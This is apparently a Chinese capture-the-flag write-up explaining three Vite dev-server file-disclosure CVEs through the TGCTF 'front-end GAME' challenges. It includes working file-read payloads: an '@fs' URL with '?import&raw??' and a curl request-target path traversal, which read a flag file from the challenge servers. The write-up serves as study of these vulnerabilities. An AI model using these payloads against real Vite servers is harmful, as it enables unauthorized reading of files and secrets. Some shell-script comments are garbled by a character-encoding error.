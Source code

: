 ```yaml
---
title: "Vite漏洞分析"
description: "Vite漏洞分析-CVE-2025-30208"
date: 2025-06-15
tags:
  - "CVE-2025-30208"
  - "CVE-2025-31486"
  - "CVE-2025-32395"
  - "vite"
authors:
  - "bx"
draft: false             
slug: "bxvite" 
---
```

<meta name="referrer" content="no-referrer">

# Vite漏洞分析
主要是 TGCTF 里面出来了三道题，这个漏洞还是非常新的

+ <font style="color:rgb(0,0,0);">CVE-2025-30208</font>

`<font style="color:rgb(31, 35, 40);">@fs</font>`<font style="color:rgb(31, 35, 40);"> 拒绝访问 Vite 服务允许列表之外的文件。将 </font>`<font style="color:rgb(31, 35, 40);">?raw??</font>`<font style="color:rgb(31, 35, 40);"> 或 </font>`<font style="color:rgb(31, 35, 40);">?import&raw??</font>`<font style="color:rgb(31, 35, 40);"> 添加到 URL 中可以绕过此限制，如果存在则返回文件内容。这种绕过存在是因为在多个地方删除了尾随分隔符（如 </font>`<font style="color:rgb(31, 35, 40);">?</font>`<font style="color:rgb(31, 35, 40);"> ），但未在查询字符串正则表达式中考虑。</font>

[https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)

+ <font style="color:rgb(0,0,0);">CVE-2025-31486</font>

<font style="color:rgb(31, 35, 40);">这个是，只有明确将 Vite 开发服务器暴露到网络上的应用程序（使用 --host 或 server.host 配置选项）才会受到影响</font>

[`server.fs.deny` 通过 `.svg` 或相对路径绕过](https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x)

+ <font style="color:rgb(0,0,0);">CVE-2025-32395</font>

[`server.fs.deny` bypassed with an invalid `request-target`](https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4)

<font style="color:rgb(0,0,0);"></font>

## <font style="color:rgb(0,0,0);">调试 Vue</font>
学习到了一个 vue devtools

官网如下：

[Vue DevTools](https://devtools.vuejs.org/)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727354800-2928e5dd-2bfa-447c-9bcd-997f324948ee.png)

我就拿这题举例子，在 chrome 下载这个插件

可以清晰的看出来 vue 项目的结构之类的东西

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727146492-3214e69b-56f6-4658-a38a-3e9b4dd994e3.png)

在`components`可以快捷调试，确实比自己找半天强，还能快捷的梳理版本号和项目结构

具体效果如下





![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727030500-241e36a6-a6d1-4260-9065-bcd3677282f7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744727200702-a5b0c156-a898-4331-9d5e-cf8981e2e4c7.png)



## **前端GAME**
https://www.panziye.com/front/16376.html

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088442-4bbde74b-f299-4c85-84da-a8e28caac511.png)

关键代码

```bash
const result = (source) => {             if (source > 17) { // <--- 关键条件在这里！                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>       <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>       <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p> // <--- Flag 位置信息！      </div>     `;             } else {                 return `     \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206     <div class="result">       <img src="@/assets/images/result.png" />       <p>\u83DC\uFF01\uFF01\uFF01</p>     </div>     `;             }         }
   
   
   -------
   
   const result = (source) => {
    if (source > 17) { // <--- 关键条件在这里！
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>恭喜你获得了</p>
  <p>雪糕大王称号</p>
  <p>flag在根目录下/tgflagggg中</p> // <--- Flag 位置信息！
</div>
`;
    } else {
        return `
当前成绩：${score.value}分
<div class="result">
  <img src="@/assets/images/result.png" />
  <p>菜！！！</p>
</div>
`;
    }
}
```

http://node2.tgctf.woooo.tech:31048/start.sh

```bash
#!/bin/sh
# 鍚姩 Vite 寮€鍙戞湇鍔″櫒锛堝悗鍙拌繍琛岋級
pnpm dev --host 0.0.0.0 &

echo $FLAG > /tgflagggg
export FLAG="not_flag"
FLAG="not_flag"

httpd -D FOREGROUND

# 淇濇寔瀹瑰櫒杩愯锛堥槻姝㈤€€鍑猴級
tail -f /dev/null
```

最后flag

### Payload
```plain
http://node2.tgctf.woooo.tech:32123/@fs/tgflagggg?import&raw??
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088429-b1c1636d-4d47-4d62-b584-12c176821cd1.png)





## **前端GAME Plus**
https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x

```bash
const result = (source) => {
            if (source > 17) {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u606D\u559C\u4F60\u83B7\u5F97\u4E86</p>
      <p>\u96EA\u7CD5\u5927\u738B\u79F0\u53F7</p>
      <p>flag\u5728\u6839\u76EE\u5F55\u4E0B/tgflagggg\u4E2D</p>
    </div>
    `;
            } else {
                return `
    \u5F53\u524D\u6210\u7EE9\uFF1A${score.value}\u5206
    <div class="result">
      <p>\u83DC\uFF01\uFF01\uFF01</p>
    </div>
```

![](https://cdn.nlark.com/yuque/0/2025/jpeg/42994824/1744647088522-7a5bbeaa-6568-4dc7-b8fa-3599118d4934.jpeg)

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647506078-b8c548b0-fe19-42ad-aca1-76c53f6243ec.png)

两种打法都可以

## **前端GAME Ultra**
参考

https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744647088416-3d7fb5c5-bca7-4254-9d22-b4d6ddb6790f.png)

```plain
┌──(root㉿kali)-[/home/bx]
└─# curl --request-target '/@fs/app/#/../../../tgflagggg' http://node1.tgctf.woooo.tech:32399

TGCTF{3b323bb9-70eb-bb3a-d45a-86aff17f8ef4}
```

